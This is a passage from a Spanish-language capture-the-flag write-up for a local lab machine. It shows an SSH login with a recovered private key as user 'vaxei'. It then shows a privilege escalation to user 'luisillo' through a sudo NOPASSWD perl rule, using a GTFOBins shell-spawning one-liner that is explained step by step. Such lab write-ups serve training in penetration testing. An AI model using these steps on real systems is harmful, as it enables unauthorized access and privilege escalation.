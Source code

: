 Ahora tenemos el usuario vaxei y su clave, por lo que vamos a acceder usando esas credenciales
Vamos a guardar la clave en un documento y vamos a usar la opción `ssh -i identity_file` para acceder

```bash
touch claveSSHvaxei
vim $_
# pegamos el contenido

ssh -i claveSSHvaxei.txt vaxei@172.17.0.2
whoami # vaxei
```

## 4. Escalada de Privilegios

### 4.1. Escalada a Usuario `luisillo`

```bash
ls
# encontramos un unico documento
cat file.txt
```
**Salida**
```bash
kflksdfsad  
asdsadsad  
asdasd
```
Comprobamos que este fichero no tiene la contraseñas de super usuario

Verificamos los permisos `sudo` del usuario `vaxei` con `sudo -l`. Se encuentra que `vaxei` puede ejecutar `/usr/bin/perl` como el usuario `luisillo` sin contraseña (`NOPASSWD`).

```bash
sudo -l
```

**Salida**

```bash
Matching Defaults entries for vaxei on 4c54b2ceac3c:  
   env_reset, mail_badpass,  
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,  
   use_pty  
  
User vaxei may run the following commands on 4c54b2ceac3c:  
   (luisillo) NOPASSWD: /usr/bin/perl
```

Puedemos ejecutar perl como el usuario **luisillo**, sin necesidad de contraseña, desde este usuario. Buscamos en GTFOBins y encontramos el siguiente comando

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
```
- `sudo -u luisillo`: ejecuta el comando siguiente **como el usuario `luisillo`**.
- `/usr/bin/perl -e '...'`: ejecuta código Perl directamente desde la línea de comandos (`-e` significa "execute").
- `'exec "/bin/sh";'`: el código Perl que se ejecuta. Llama a `exec` para reemplazar el proceso Perl por un **shell `/bin/sh`**.

